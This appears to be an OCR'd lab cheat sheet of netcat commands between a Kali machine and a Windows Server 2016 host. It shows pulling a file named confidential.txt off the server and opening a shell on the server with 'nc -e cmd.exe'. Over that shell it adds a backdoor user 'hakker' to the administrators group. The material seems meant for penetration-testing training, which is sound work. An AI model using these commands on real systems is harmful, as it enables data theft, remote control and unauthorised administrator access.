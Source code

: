 \-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\--

\# Server delivers a file to the client

\# when the client connects

Server2016:

nc -w 5 -Lnvp 5555 \< C:\secret\confidential.txt

Kali:

nc -w 5 -nv 192.168.6.132 5555 \> confidential.txt

Both:

Ctrl+c

\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\--

\# Client uploads a file to the server

Server2016:

nc -w 5 -Lnvp 7777 \> C:\Users\Administrator\Desktop\haha.txt

Kali:

nc -w 5 -nv \<Server IP\> 7777 \< haha.txt

Both:

Ctrl+c

\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\--

\# Install ncat on Kali

sudo apt install ncat

\# KALI will use TWO terminals

Kali: Terminal 1

ncat -l -n -v -w 5 -k 9999 \> payments.txt

\# Server provides a reverse shell

when the client connects

Server2016:

nc -Lnvp 8888 -e cmd.exe

Kali: Terminal 2

nc -nv 192.168.6.132 8888

net user hakker 1Password /add

net user

net localgroup administrators /add hakker
